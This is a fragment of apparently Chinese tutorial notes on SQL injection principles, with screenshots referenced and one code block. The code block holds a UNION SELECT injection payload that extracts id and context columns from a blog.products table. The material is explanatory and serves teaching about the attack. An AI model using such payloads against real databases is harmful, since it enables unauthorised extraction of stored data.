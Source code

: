 ![image-20250112184645849](.\SQL注入原理.assets\image-20250112184645849.png)

~~~perl
获取指定数据
UNION SELECT id,context,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from blog.products
~~~

![image-20250112184900151](.\SQL注入原理.assets\image-20250112184900151.png)
